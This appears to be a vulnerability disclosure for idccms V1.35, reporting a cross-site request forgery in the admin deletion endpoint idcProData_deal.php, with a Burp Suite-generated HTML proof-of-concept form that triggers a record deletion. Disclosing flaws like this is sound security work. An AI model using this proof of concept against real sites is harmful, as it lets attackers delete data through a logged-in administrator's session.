 
target:http://idccms.com/
version: V1.35

idccms V1.35 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://127.0.0.1:80/admin/idcProData_deal.php?mudi=del&dataType=&dataTypeCN=IDC%E5%95%86%E5%93%81&theme=cs12&dataID=9849

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:80/admin/idcProData_deal.php?mudi=del&dataType=&dataTypeCN=IDC%E5%95%86%E5%93%81&theme=cs12&dataID=9849" method="POST">
      
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
